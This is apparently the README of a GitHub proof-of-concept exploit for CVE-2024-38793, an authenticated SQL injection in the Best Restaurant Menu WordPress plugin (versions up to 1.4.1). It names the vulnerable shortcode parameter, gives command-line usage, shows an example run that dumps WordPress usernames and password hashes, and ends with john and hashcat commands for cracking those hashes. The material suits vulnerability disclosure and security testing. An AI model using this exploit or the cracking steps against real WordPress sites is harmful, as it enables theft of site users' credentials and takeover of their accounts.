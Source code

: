 # CVE-2024-38793-PoC
Proof of Concept code for exploitation of CVE-2024-38793 (Best Restaurant Menu by PriceListo &lt;= 1.4.1 - Authenticated (Contributor+) SQL Injection).
## Proof Of Concept
This is a proof of concept exploit for the vulnerability [CVE-2024-38793](https://patchstack.com/database/vulnerability/best-restaurant-menu-by-pricelisto/wordpress-best-restaurant-menu-by-pricelisto-plugin-1-4-1-sql-injection-vulnerability), an SQL injection vulnerability for versions of the WordPress plugin [Best Restaurant Menu a.k.a Great Restaurant Menu WP](https://wordpress.org/plugins/best-restaurant-menu-by-pricelisto/) before 1.4.2.

The vulnerability occurs because of a lack on input sanitization on the groups argument when using the brm_restaurant_menu shortcode.

**Note**: This does require the credentials of a user with at least Contributor level privileges.

The code will attempt to grab the username and password hashes from the WordPress users table.

## Usage
```
CVE-2024-38793 Exploit (Best Restaurant Menu by PriceListo Version <= 1.4.1) PoC
         Requires Contributor+ Privileges on a WordPress instance with the plugin installed
         Credit: @ret2desync
         Will attempt to create a new post, exploit the vulnerability and extract all users usernames and password hashes
         Example usage:
         python3 CVE-2024-38793.py -t "http://127.0.0.1/wordpress/" -u contributor -p password --proxy "http://127.0.0.1:8080"
usage: CVE-2024-38793.py [-h] -t TARGET -u USERNAME -p PASSWORD [--proxy PROXY] [-o OUTFILE]

```
## Example run
```
python3 CVE-2024-38793.py -t "http://127.0.0.1/wordpress/" -u contributor -p password      
CVE-2024-38793 Exploit (Best Restaurant Menu by PriceListo Version <= 1.4.1) PoC
         Requires Contributor+ Privileges on a WordPress instance with the plugin installed
         Credit: @ret2desync
         Will attempt to create a new post, exploit the vulnerability and extract all users usernames and password hashes
         Example usage:
         python3 CVE-2024-38793.py -t "http://127.0.0.1/wordpress/" -u contributor -p password --proxy "http://127.0.0.1:8080"
[*] Successfully signed in to Wordpress using contributor password
[*] Successfully created new post, id: 219
[*] Successfully saved new post with exploit, post id: 219
[*] Successfully grabbed usernames and password hashes
[*] Found 2 sets of credentials
[***                Credentials                ***]
root:$P$BG.b.gHI.byee9PWs8GspKxY9qp0Cm0
contributor:$P$BBVRINbQUo28Tpbp3H7/iITT/Eo9aR0
[*] Crack hashes with: 
 john <hashes_file> --wordlist=<wordlist> 
 hashcat -m 400 -a 0 --username <hashes_file> <wordlist>
[*] Exploit completed successfully
```
